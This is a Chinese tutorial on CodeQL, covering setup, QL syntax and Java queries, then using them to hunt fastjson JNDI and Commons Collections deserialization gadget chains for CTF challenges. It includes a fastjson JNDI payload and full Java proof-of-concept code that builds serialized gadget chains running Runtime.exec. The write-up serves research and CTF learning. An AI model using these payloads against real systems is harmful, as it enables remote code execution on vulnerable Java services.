# 环境搭建

CodeQL本身包含两部分解析引擎+`SDK`。

解析引擎用来解析我们编写的规则，虽然不开源，但是我们可以直接在官网下载二进制文件直接使用。

`SDK`完全开源，里面包含大部分现成的漏洞规则，我们也可以利用其编写自定义规则。

## 引擎安装

首先在系统上选定CodeQL的安装位置，我的位置为：Home/CodeQL。

然后我们去地址：https://github.com/github/codeql-cli-binaries/releases 下载已经编译好的codeql执行程序，解压之后把codeql文件夹放入～/CodeQL

需要把ql可执行程序加入到环境变量当中：

```
export PATH=/Users/DawnT0wn/CodeQL/codeql:$PATH
```

source一下

```
source .bash_profile
```



## SDK安装

使用Git下载QL语言工具包，也放入～/CodeQL文件夹。

```
git clone https://github.com/Semmle/ql
```

也可以用https://github.com/github/vscode-codeql-starter来快速安装

## VSCode开发插件安装



设置可执行文件路径



## 创建数据库

开始一直没有创建成功，原来是架构的问题，mac下的终端切换架构用以下命令，当我切换到x86_64的时候才创建成功

```
arch -x86_64 zsh

arch -arm64 zsh
都是临时切换的，重启zsh后会恢复
```

确保maven编译的时候不会报错

```
codeql database create ~/CodeQL/databases/codeql_demo  --language="java"  --command="mvn clean package -DskipTests" --source-root=/Users/DawnT0wn/IdeaProjects/Maven

codeql database create ruoyi_demo  --language="java"  --command="mvn clean package -DskipTests" --source-root=/Users/DawnT0wn/代码审计/RuoYi-v4.6.0
```

```
建立好的数据库，其目录结构为：

- log/                # 输出的日志信息
- db-java/            # 编译的数据库
- src.zip             # 编译所对应的目标源码
- codeql-database.yml # 数据库相关配置
```



```
--language="java" 表示当前程序语言为Java。

--command="mvn clean install --file pom.xml" 编译命令（因为Java是编译语言，所以需要使用–command命令先对项目进行编译，再进行转换，python和php这样的脚本语言不需要此命令）

--source-root=/Users/DawnT0wn/IdeaProjects/Maven 这个当然指的是项目路径
```

## 导入数据库



打开下载的SDK



新建test.ql，写入内容`select "hello world"`，导入数据库进行查询



点击run query（左侧的也可以）



# QL语法

CodeQL的核心引擎是不开源的，这个核心引擎的作用之一是帮助我们把micro-service-seclab转换成CodeQL能识别的中间层数据库。

## 谓词

在CodeQL中，函数并不叫函数，而被称为谓词，谓词的定义格式和编程语言中函数类似

```
predicate name(type arg)
{
  statements
}
```

定义谓词有四个要素：

- 关键词 predicate（如果没有返回值），或者结果的类型（如果当前谓词内存在返回值）
- 谓词的名称
- 谓词的参数列表
- 谓词主体

### 无返回值的谓词

我们可以用编程语言函数的思想来理解谓词，在函数中，有些没有返回值的用void表示，而在CodeQL中，没有返回值的谓词用predicate修饰，若传入的值满足谓词主体中的逻辑，则该谓词将保留该值。

```
predicate isSmall(int i) {
  i in [1 .. 9]
}

from int i 
where isSmall(i) // 将整数集合i从正无穷大的数据集含，限制至 1-9
select i
// 输出 1-9 的数字
```



当整数集合`i`通过isSmall后，会只剩下1-9这个集合，其他值将被舍弃

### 有返回值当谓词

还是用以编程语言的区别来看有返回值的谓词，在编程语言中，有返回值的函数会存在一个return语句，而在CodeQL中，存在一个特殊的变量result来作为返回值

在谓词主体中，result仍然是一个变量，只是他最后将会作为返回值返回

```
int getA(int i){
    result = i + 3 and i in [1 .. 9]
}
select getA(3)
```



```
string getANeighbor(string country) {
    country = "France" and result = "Belgium"
    or
    country = "France" and result = "Germany"
    or
    country = "Germany" and result = "Austria"
    or
    country = "Germany" and result = "Belgium"
}

select getANeighbor("France")
```



谓词不允许描述的数据集合个数**不限于有限数量大小**的，什么意思呢，可以看下面的例子

```
// 该谓词将使得编译报错
int multiplyBy4(int i) {
  // i 是一个数据集合，此时该集合可能是「无限大小」
  // result 集合被设置为 i*4，意味着 result 集合的大小有可能也是无限大小
  result = i * 4
}
```



但是要定义此类谓词也不是没有办法，我们需要一个bingingset标注，该标注将会声明谓词 `plusOne` 所包含的数据集合是有限的，前提是 `i` 绑定到有限数量的数据集合

```
bindingset[x] bindingset[y]
predicate plusOne(int x, int y) {
  x + 1 = y
}

from int x, int y
where x = 42 and plusOne(x, y)
select x, y
```



此外，在特征谓词中，比较常用的一个关键字是 `exists`。该关键字的语法如下：

```
exists(<variable declarations> | <formula>)
// 以下两个 exists 所表达的意思等价。
exists(<variable declarations> | <formula 1> | <formula 2>
exists(<variable declarations> | <formula 1> and <formula 2>
```

这个关键字的使用引入了一些新的变量。如果变量中至少有一组值可以使 formula 成立，那么该值将被保留。

## 类

在 CodeQL 中的类，**并不意味着建立一个新的对象**，而只是表示特定一类的数据集合，定义一个类，需要三个步骤：

- 使用关键字`class`
- 起一个类名，其中类名必须是首字母大写的。
- 确定是从哪个类中派生出来的（就是需要extends语句）

```
如下是官方的一个样例：

class OneTwoThree extends int {
  OneTwoThree() { // characteristic predicate
    this = 1 or this = 2 or this = 3
  }
 
  string getAString() { // member predicate
    result = "One, two or three: " + this.toString()
  }

  predicate isEven() { // member predicate
    this in [1 .. 2] 
  }
}

from OneTwoThree i 
where i = 1 or i.getAString() = "One, two or three: 2"
select i
// 输出 1 和 2
```



和编程语言类似，有一个构造函数，这里的构造函数会把我们的值限定在1，2，3这三个值当中，`this` 变量表示的是当前类中所包含的数据集合。与 `result` 变量类似，`this`同样是用于表示数据集合直接的关系。在CodeQL中，这个不被称为构造函数，其中和类名名称相同的方法为特征谓词，特征谓词中的this代表父类而不是和java一样代表本身，这里就相当于是int

如果我们想要找到一个java方法，并且方法名叫main，我们可以用CodeQL库定义好的Method类，他代表所有java方法，然后定义一个Main类继承Method这个类，并加上我们的逻辑，只要名字是main的方法。

第一行表示我们要引入CodeQL的类库，因为我们分析的项目是java的，所以在ql语句里，必不可少

```
import java

class Main extends Method{
    Main(){
        this.getName() = "main"
    }
}
from Main i
select i
```



点击就能跳到对应的main方法去了




# CodeQL For Java

学CodeQL就像学一门编程语言一样，要做到面面俱到还是很难的，但是可以针对性的学一些东西，在了解完QL的基本语法后，我想来对fastjson和CC链这种在CTF中遇到过滤的情况能通过CodeQL来发现新的利用链

通过前面的学习也了解到了，CodeQL其实算是一种和SQL意义相近的东西，只是SQL是对数据库中存放的数据进行查询，而CodeQL是将源码转换成CodeQL能识别的数据库，通过这种查询语言达到查询对应代码的目的

在分析项目之前，一些对CodeQL基础语法的掌握也必不可少，需要知道用哪个类，哪个方法才能达到我们的目的

## 对类进行限制

查询的过程中，我们如果想要查询某个类（或方法），这时就需要通过一些谓词来限制这个类（或方法）的一些特征。

在CodeQL中，`RefType`就包含了我们在Java里面使用到的`Class`,`Interface`的声明，比如我们现在需要查询一个类名为`test`的类，但是我们不确定他是`Class`还是`Interface`，我们就可以通过 `RefType`定义变量后进行查询，如下

```
import java

from RefType i
where i.hasName("test")
select i
```



`RefType`中常用的谓词：
https://codeql.github.com/codeql-standard-libraries/java/semmle/code/java/Type.qll/type.Type$RefType.html

```
getACallable() 获取所有可以调用方法(其中包括构造方法)
getAMember() 获取所有成员，其中包括调用方法，字段和内部类这些
getAField() 获取所有字段
getAMethod() 获取所有方法
getASupertype() 获取父类
getAnAncestor() 获取所有的父类相当于递归的getASupertype*()
```

```
import java

from RefType i
where i.hasName("test")
select i.getACallable()
```



查找test类的encrypt方法

```
import java

from RefType i,Callable c
where i.hasName("test") and c.hasName("encrypt") and i.getACallable()=c
select c
```



在CodeQL中，Java的方法限制，我们可以使用`Callable`，并且`Callable`父类是 `Method` (普通的方法)和 `Constructor`(类的构造方法)

对于方法调用，我们可以使用`call`，并且`call`的父类包括`MethodAccess`, `ClassInstanceExpression`, `ThisConstructorInvocationStmt` 和 `SuperConstructorInvocationStmt`

现在我们来查找一处触发fastjson反序列化的点的地方，也就是调用了JSON.parse

```
import java

from Callable c,MethodAccess i
where c.hasName("parse")
    and i.getMethod() = c
    and c.getDeclaringType().hasQualifiedName("com.alibaba.fastjson","JSON")
select i,c
```

可以看到上面，对于方法的锁定我们使用了Callable，对于方法的调用则采用了MethodAccess，思路也很明确

首先锁定方法为parse，其次我们MethodAccess的目标就是这个Callable，接下来我们需要去指定调用哪一个类的parse方法，所以Callable需要加上一个hasQualifiedName来限定类，在此之前加上一个getDeclaringType，这样写也不陌生，和反射差不多，否则hasQualifiedName需要三个参数，`c.hasQualifiedName(package, type, name)`



`Callable`常使用的谓词：
`https://codeql.github.com/codeql-standard-libraries/java/semmle/code/java/Member.qll/type.Member$Callable.html`

```
polyCalls(Callable target) 一个Callable 是否调用了另外的Callable，这里面包含了类似虚函数的调用
hasName(name) 可以对方法名进行限制
```

查找调用了encrypt方法的方法

```
import java

from Callable c,Callable i
where c.polyCalls(i) and i.hasName("encrypt")
select c
```



`Call`中常使用的谓词：
`https://codeql.github.com/codeql-standard-libraries/java/semmle/code/java/Expr.qll/type.Expr$Call.html`

```
getCallee() 返回函数声明的位置
getCaller() 返回调用这个函数的函数位置
```

```
import java

from Call i
where i.getCallee().hasName("encrypt")
select i,i.getCallee(),i.getCaller()
```



可以发现，Call是调用方法的位置（就是发生调用的位置test.encrypt），getCallee是被调用方法的位置（即被调用的方法encrypt），getCaller是调用这个函数是所在方法的位置（即这个main函数）

## FastJson

要查询对应的代码，就需要知道其特征才能进行查询，先拿特征明显的fastjson来举例

学习了fastjson就会知道，fastjson是通过特定的字符串可以调用到指定类相应的getter方法或者setter方法，从而有对应的漏洞

getter的规则：

1. 以get开头
2. 没有函数参数
3. 是我们的code database中的函数
4. 为public方法
5. 函数名长度要大于3

setter的规则：

1. 以set开头
2. 函数参数为一个
3. 是我们code database中的函数
4. 为public方法
5. 函数名长度大于3
6. 返回值为void

所以我们可以来开始试试编写fastjson漏洞入口点的CodeQL代码了

首先是getter方法，编写一个class

```
class FastJsonGetMethod extends Method{
    FastJsonGetMethod(){
        this.hasNoParameters() and
        this.getName().length() > 3 and
        this.isPublic() and 
        this.getName().indexOf("get") = 0 
    }
}
```

接下来是setter方法

```
class FastJsonSetMethod extends Method{
    FastJsonSetMethod(){
        this.getName().length() > 3 and
        this.isPublic() and
        this.getNumberOfParameters() = 1 and
        this.getName().indexOf("set") = 0 and
        exists( VoidType void|void = this.getReturnType())
    }
}
```

网上也有很多关于getter呵setter方法的查找方式，只要能满足基本的要求即可

```
class GetterCallable extends Callable {
  GetterCallable() {
    getName().matches("get%") and
    hasNoParameters() and
    getName().length() > 3
    or
    getName().matches("set%") and
    getNumberOfParameters() = 1
  }
}
```

我们最后的目的是去jndi注入，而对于我们需要的到达的目的sink，我们这里测试的是JNDI注入，所以其特征就是

1. lookup方法
2. 包名为`javax.naming.Context`

编写一个限制方法名为`lookup`，并且他所属的类或者接口是`javax.naming.Context`的类

```
class LookupMethod extends Call{
    LookupMethod(){
        this.getCallee().hasName("lookup") and
        this.getCallee().getDeclaringType().getASupertype*().hasQualifiedName("javax.naming", "Context")
    }
}
```

这里我们在获取DeclaringType后，还获取了`Supertype*`（*代表所有），这样找到的就不只是调用Context类的lookup方法了，其父类InitialContext的lookup方法也可以找到



接下来我们需要去找有没有从刚才的getter或者setter方法能够到sink点到一条路径，这个时候可以利用`edges`和`Callable`中的谓词`polyCalls`进行构造

```
query predicate edges(Callable a, Callable b) { 
    a.polyCalls(b) 
}
```

这个意思就是a调用了b

```
class FastJsonCallable extends Callable {
  FastJsonCallable() {
    this instanceof FastJsonGetMethod or
    this instanceof FastJsonSetMethod
  }
}
```

完整的代码

```
/**
 * @kind path-problem
 */

import java

class FastJsonGetMethod extends Method{
    FastJsonGetMethod(){
        this.hasNoParameters() and
        this.getName().length() > 3 and
        this.isPublic() and 
        this.getName().indexOf("get") = 0 
    }
}

class FastJsonSetMethod extends Method{
    FastJsonSetMethod(){
        this.getName().length() > 3 and
        this.isPublic() and
        this.getNumberOfParameters() = 1 and
        this.getName().indexOf("set") = 0 and
        exists( VoidType void|void = this.getReturnType())
    }
}

class LookupMethod extends Call{
    LookupMethod(){
        this.getCallee().hasName("lookup") and
        this.getCallee().getDeclaringType().getASupertype*().hasQualifiedName("javax.naming", "Context")
    }
}


class FastJsonCallable extends Callable {
    FastJsonCallable() {
      this instanceof FastJsonGetMethod or
      this instanceof FastJsonSetMethod
    }
}

query predicate edges(Callable a, Callable b) { a.polyCalls(b) }

from FastJsonCallable startcall,LookupMethod end,Callable c
where end.getCallee() = c and
    edges+(startcall, c)
select end.getCaller(),startcall,end.getCaller(),"jndi"
```

注意，前三行的注释不能少，不然下拉菜单看不到alerts选项

前面的注释和其它语言是不一样的，不能够删除，它是程序的一部分，因为在我们生成测试报告的时候，上面注释当中的name，description等信息会写入到审计报告中。



这里的加号和正则表达式一样，表示一次或者多次，就相当于多次调用形成的一条路径，这里就条件就相当于，从setter和getter方法开始，调用c，最后c就是lookup

这个`@kind path-problem`需要select有四个参数，而且还得满足特定的位置，前三个为实体，最后一个是字符串



第一个参数是alerts分类的标准，第二个是起始点，第三个是结束点，第四个是名字

### SUSCTF2022

SUSCTF2022的gadeget题目考察的是：fastjson JNDI注入、JNDI注入绕过高版本jdk限制、绕过RASP等

```
CodeQL database create  quartz_db --language="java"  --command="./mvnw clean install --file pom.xml -Dmaven.test.skip=true"
```

用刚才的完整代码扫一遍



有这么多个结果

```
protected Transaction getTransaction() throws LockException{
        InitialContext ic = null; 
        try {
            ic = new InitialContext(); 
            TransactionManager tm = (TransactionManager)ic.lookup(transactionManagerJNDIName);
            
            return tm.getTransaction();
        } catch (SystemException e) {
            throw new LockException("Failed to get Transaction from TransactionManager", e);
        } catch (NamingException e) {
            throw new LockException("Failed to find TransactionManager in JNDI under name: " + transactionManagerJNDIName, e);
        } finally {
            if (ic != null) {
                try {
                    ic.close();
                } catch (NamingException ignored) {
                }
            }
        }
    }
```

在这里这个方法是protected，所以没有直接找到，但是在原题中，这里被改成了public

来看看这里的代码，调用的是InitialContext的lookup方法，里面的参数看看可控吗

```
   public void setTransactionManagerJNDIName(String transactionManagerJNDIName) {
        this.transactionManagerJNDIName = transactionManagerJNDIName;
    }
```

有一个setter方法，所以poc如下

```
[{"@type":"org.quartz.impl.jdbcjobstore.JTANonClusteredSemaphore","TransactionManagerJNDIName":"rmi://ip:port/h"},{"$ref":"$[0].Transaction"}]
// $ref是在fastjson>=1.2.36之后可以调用任意的getter方法
```

## CC链

除了对fastjson这种的挖掘，还可以对CC链进行挖掘

### 单个jar创建database

利用工具：https://github.com/waderwu/extractor-java

```
首先解压commons-collections-3.2.1.jar

# 反编译，要具体到源码的目录下
python3 class2java.py commons-collections-3.2.1/org

# 生成数据库，第二个参数srcroot可以指定多几层的上级目录都没关系
python3 run.py cc-test commons-collections-3.2.1

```




### MRCTF2022ezjava

题目环境：
https://github.com/Y4tacker/CTFBackup/tree/main/2022/2022MRCTF/%E7%BB%95serializeKiller

这道题当时搜到一种做法是用JRMP反序列化来绕过SerialKiller，但是当时的题目环境是不出网的，只能在本地打通，就需要另外去找可用的CC链了，当时是用了一个InstantiateFactory去绕过，我们用CodeQL来看看可不可以找到

过滤内容如下



```
package com.example.easyjava.controller;

import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.Base64;
import org.nibblesec.tools.SerialKiller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class HelloController {
    public HelloController() {
    }

    @GetMapping({"/hello"})
    public String index() {
        return "hello";
    }

    @PostMapping({"/hello"})
    public String index(@RequestBody String baseStr) throws Exception {
        byte[] decode = Base64.getDecoder().decode(baseStr);
        ObjectInputStream ois = new SerialKiller(new ByteArrayInputStream(decode), "serialkiller.xml");
        ois.readObject();
        return "hello";
    }
```

hello路由下有反序列化点，但是要绕过SerialKiller

出网的做法就是利用JRMP反序列化，相当于一个二次反序列化的思想，毕竟在RMI交互的过程中，反序列化不会经过SerialKiller校验

当然这里，我们是为了用CodeQL来发掘一条新的CC链

我们知道CC链可以通过调用到InvokeTransformer的反射来构造调用Runtime到exec方法，也可以最后通过TemplatesImpl加载字节码

这里InvokeTransformer被ban了，我们就需要想办法去加载恶意类，从CC3开始，我们找到了一个InstantiateTransformer和TrAXFilter类，可以通过InstantiateTransformer调用TrAXFilter的构造函数，从而调用到TemplatesImpl到newTransformer方法，后面就是熟悉的部分了，这里刚好TrAXFilter和加载恶意类的地方没有被ban，我们就可以想办法去找到一个调用constructor.newInstance的地方

这里了解一下TypeConstructor



可以看到，其实它就代表了constructor的所有泛型

现在，我们来寻找一下哪里可以调用constructor.newInstance

```
import java

class NewCC extends Call{
  NewCC(){
    this.getCallee().hasName("newInstance") and
    this.getCallee().getDeclaringType() instanceof TypeConstructor
  }

}
from NewCC i
select i
```



一共有三处，其中有一处是在transform方法中，但是是InstantiateTransformer，已经被过滤了，我们加上一些排除的代码，把过滤的类给去除掉

```
import java

class NewCC extends Call{
  NewCC(){
    this.getCallee().hasName("newInstance") and
    this.getCallee().getDeclaringType() instanceof TypeConstructor and
    not getCaller().getDeclaringType().hasName("InvokerTransformer") and
    not getCaller().getDeclaringType().hasName("ChainedTransformer") and
    not getCaller().getDeclaringType().hasName("ConstantTransformer") and
    not getCaller().getDeclaringType().hasName("InstantiateTransformer")
  }

}
from NewCC i
select i
```

表示constructor.newInstance不能在这四个类里面调用

在CC链中，我们知道了LazyMap中的get可以调用到任意的transform方法，于是我们可以从transform方法来寻找有没有到刚才两个调用点到一条链子



可以看到，能够直接调用到FactoryTransformer的transform方法，然后调用create



而且都是可控的，前面就是平常写的到LazyMap到链子

完整代码

```
/**
 * @kind path-problem
 */

import java

class NewCC extends Call{
  NewCC(){
    this.getCallee().hasName("newInstance") and
    this.getCallee().getDeclaringType() instanceof TypeConstructor and
    not getCaller().getDeclaringType().hasName("InvokerTransformer") and
    not getCaller().getDeclaringType().hasName("ChainedTransformer") and
    not getCaller().getDeclaringType().hasName("ConstantTransformer") and
    not getCaller().getDeclaringType().hasName("InstantiateTransformer")
  }

}
class GetterCallAble extends Callable{
  GetterCallAble(){
    this.hasName("transform") and
    not this.getDeclaringType() instanceof Interface and 
    not getDeclaringType().hasName("InvokerTransformer") and
    not getDeclaringType().hasName("ChainedTransformer") and
    not getDeclaringType().hasName("ConstantTransformer") and
    not getDeclaringType().hasName("InstantiateTransformer") and
    this.getNumberOfParameters() = 1

  }
}
query predicate edges(Callable a,Callable b) {
  a.polyCalls(b)
}
from NewCC end,GetterCallAble src,Callable c
where end.getCallee() = c and
  edges+(src, c)
select end.getCaller(),src,end.getCaller(),"CC"
```

poc如下

```
package NewCC;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Newcc {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();
        byte[][] targetbytes = new byte[][]{bytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFiledValue(templates,"_bytecodes",targetbytes);
        setFiledValue(templates,"_name","DawnT0wn");
        setFiledValue(templates,"_class",null);

        InstantiateFactory instantiateFactory = new InstantiateFactory(TrAXFilter.class,new Class[]{Templates.class},new Object[]{templates});
        FactoryTransformer factoryTransformer = new FactoryTransformer(instantiateFactory);

        Map innermap = new HashMap();
        LazyMap outmap = (LazyMap) LazyMap.decorate(innermap,factoryTransformer);

        TiedMapEntry tiedmap = new TiedMapEntry(outmap,"town");
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC.bin"));
        os.writeObject(poc);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC.bin"));
        fos.readObject();

    }

    public static void setFiledValue(Object obj,String Filename,Object value) throws Exception
    {
        Field field = obj.getClass().getDeclaredField(Filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

其实手工筛选的时候，发现其他的链子也是有些能走通的

### 新的CC链

刚才那个题目没有过滤得很严，但是有时候会见到过滤得比较严的CC链，所以这里我们来总结一下CC链的特征，并尝试能不能在过滤的情况下找到另外的链子

首先简单分析一下CC1-7链子的特点：

- Source：
  - compare：2、4
  - toString：5
  - hashCode：6
  - equals：7
- Sink：
  - 反射invoke：1、5、6、7
  - 任意单参构造方法TrAXFilter#TrAXFilter(Templates) -> TemplateImpl#newTransformer：2、3、4、3+5

除了上面的Sink点之外，还可以有：

- 命令注入
- 二次反序列化readObject
- jndi注入
- …(还有很多，比如模板注入、jdbc attack、ssrf、xxe之类的，但是鉴于只分析CC包且需要完成任意代码执行，就不列举其他的了)

根据以上，我们可以编写出表示Source和Sink的ql代码

```
import java

class SerializeMethod extends Method{
  SerializeMethod(){
    this.getDeclaringType().getASupertype*() instanceof TypeSerializable
  }
}

class Compare extends SerializeMethod{
  Compare(){
    this.hasName("compare")
  }
}

class ToString extends SerializeMethod{
  ToString(){
    this.hasName("toString")
  }
}

class HashCode extends SerializeMethod{
  HashCode(){
    this.hasName("hashCode")
  }
}

class Equals extends SerializeMethod{
  Equals(){
    this.hasName("equals")
  }
}

class Source extends SerializeMethod{
  Source(){
      exists(Compare n1,ToString n2,HashCode n3,Equals n4|
        this = n1 or this = n2 or this = n3 or this = n4)
  }
}

class Invoke extends Method{
  Invoke(){
    this.hasName("invoke") and
    this.getDeclaringType().getASupertype*().hasQualifiedName("java.lang.reflect", "Method")
  }
}

class NewInstance extends Method{
  NewInstance(){
    this.hasName("newInstance") and
    this.getDeclaringType() instanceof TypeConstructor
  }
}

class Sink extends SerializeMethod{
  Sink(){
    exists(Invoke n1,NewInstance n2,ReadObjectMethod n3,ExecCallable n4|
      this.getACallee() = n1 or
      this.getACallee() = n2 or
      this.getACallee() = n3 or
      this.getACallee() = n4 )
  }
}
```

这里sink点至包括了invoke，newinstance，二次反序列化点readObject

接下来，我们排除一部分CC1-7存在的类，以便我们找到其他的利用链

```
class Sanitizer extends SerializeMethod{
  Sanitizer(){
    exists(RefType cls |
      this.getDeclaringType() = cls and
      cls.hasName([
        "LazyMap",
        "ChainedTransformer",
        "ConstantTransformer",
        "InvokerTransformer",
        "TransformingComparator",
        "InstantiateTransformer",
        "TiedMapEntry",
        "AbstractMap",
        "AbstractMapDecorator",
        "PrototypeCloneFactory", // 只能调用clone
    ]))
  }
}
```

这个Sanitizer不仅可以作为黑名单使用，还可以清洗掉本身就不可能成立的一些类，比如在后续查询的过程中发现`PrototypeCloneFactory`这个类的create方法只能反射调用任意public clone方法，没啥价值，因此也添加到了里面。前面的几个类就是常规CC链中在jar包出现的所有类。



定义的edges连接谓词中，必须保证所有的a -> b调用都满足a和b都不是Sanitizer中限制的类型，所以需要forex/forall，而不是exists

```
query predicate edges(SerializeMethod a,SerializeMethod b) {
  a.polyCalls(b) and
  forex(Sanitizer st|
      not a = st and
      not b = st)
}
```

完整代码如下

```
/**
 * @kind path-problem
 */
import java

class SerializeMethod extends Method{
  SerializeMethod(){
    this.getDeclaringType().getASupertype*() instanceof TypeSerializable
  }
}

class Compare extends SerializeMethod{
  Compare(){
    this.hasName("compare")
  }
}

class ToString extends SerializeMethod{
  ToString(){
    this.hasName("toString")
  }
}

class HashCode extends SerializeMethod{
  HashCode(){
    this.hasName("hashCode")
  }
}

class Equals extends SerializeMethod{
  Equals(){
    this.hasName("equals")
  }
}

class Source extends SerializeMethod{
  Source(){
      exists(Compare n1,ToString n2,HashCode n3,Equals n4|
        this = n1 or this = n2 or this = n3 or this = n4)
  }
}

class Invoke extends Method{
  Invoke(){
    this.hasName("invoke") and
    this.getDeclaringType().getASupertype*().hasQualifiedName("java.lang.reflect", "Method")
  }
}

class NewInstance extends Method{
  NewInstance(){
    this.hasName("newInstance") and
    this.getDeclaringType() instanceof TypeConstructor
  }
}

class Sink extends SerializeMethod{
  Sink(){
    exists(Invoke n1,NewInstance n2,ReadObjectMethod n3|
      this.getACallee() = n1 or
      this.getACallee() = n2 or
      this.getACallee() = n3)
  }
}

class Sanitizer extends SerializeMethod{
  Sanitizer(){
    exists(RefType cls |
      this.getDeclaringType() = cls and
      cls.hasName([
        "LazyMap",
        "ChainedTransformer",
        "ConstantTransformer",
        "InvokerTransformer",
        "TransformingComparator",
        "InstantiateTransformer",
        "TiedMapEntry",
        "AbstractMap",
        "AbstractMapDecorator",
        "PrototypeCloneFactory", // 只能调用clone
    ]))
  }
}

query predicate edges(SerializeMethod a,SerializeMethod b) {
  a.polyCalls(b) and
  forex(Sanitizer st|
      not a = st and
      not b = st)
}


from Source src,Sink sink,Callable c
// where sink =c and
//   edges+(src, c)
where edges*(src, sink)
select sink,src,sink,"sink is $@.",src,"here"
```

https://blog.diggid.top/2022/04/30/%E4%BD%BF%E7%94%A8CodeQL-CHA%E8%B0%83%E7%94%A8%E5%9B%BE%E5%88%86%E6%9E%90%E5%AF%BB%E6%89%BE%E6%96%B0%E7%9A%84CC%E9%93%BE/#%E5%89%8D%E8%A8%80

提到了一个改版的解决错误，其实就是他原先加上了一个`ExecCallable`这个类，而这个类在由CommonsColletions包构建的database中不存在定义，也就是说没有任何方法调用了ExecCallable(这是内置类，其实就是命令执行方法的一个类)，所以extractor在处理时没有生成对应的trap放入database中。

这样就会导致前面说的exists在定义变量的部分就出错，导致查询不到，可以删除，也可以用他文章提到的改版

```
class Sink extends SerializableMethod {
    Sink() {
        exists(NewInstance n1, Invoke n2, ReadObjectMethod n3|
            this.getACallee() = n1 or
            this.getACallee() = n2 or 
            this.getACallee() = n3 
        )
        or 
        exists(ExecCallable n1|
            this.getACallee() = n1
        )
    }
}
```

除此之外，我们对于sink和source定义的时候可以借助一个abstract class

```
 abstract class Source extends SerializableMethod{}
 
 abstract class Sink extends SerializableMethod{}
```

然后定义每个source的时候可以直接继承自这个抽象类

```
class Compare extends Source {
    Compare() {
        this.hasName("compare")
    }
}
```

文章改版后的代码就是这么写的

在我们把PrototypeCloneFactory 这个只能调用clone的类过滤掉后，一共有两个sink点，我们分别可以找到一条链子



#### 高版本TemplatesImpl

当然，不止一条链子，我们去找一条最方便，最好写的一条链子



经过人工排查，这条链子是最短的，当然这里的CloneTransformer也可以是FactoryTransformer

但是`DefaultedMap`在CC3.2.1才有，在CC3.1版本没有依赖，在4.0也有

```
package CC;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.FastHashMap;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.map.DefaultedMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;


public class CCD {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classBytes = STU.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates,"_name","DawnT0wn");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",targetByteCodes);

        InstantiateFactory factory = new InstantiateFactory(TrAXFilter.class, new Class[]{Templates.class}, new Object[]{templates});
        FactoryTransformer transformer = new FactoryTransformer(factory);

        HashMap tmp = new HashMap();
        tmp.put("zZ", "d");
        DefaultedMap map  = (DefaultedMap) DefaultedMap.decorate(tmp, transformer);


        FastHashMap fastHashMap1 = new FastHashMap();
        fastHashMap1.put("yy","d");

        Hashtable obj = new Hashtable();
        obj.put("aa", "b");
        obj.put(fastHashMap1, "1");

//        Object[] table = (Object[]) Reflections.getFieldValue(obj, "table");
        Field field = obj.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(obj);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[2];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map);
        }

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CCD.bin"));
        os.writeObject(obj);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CCD.bin"));
        fos.readObject();

    }
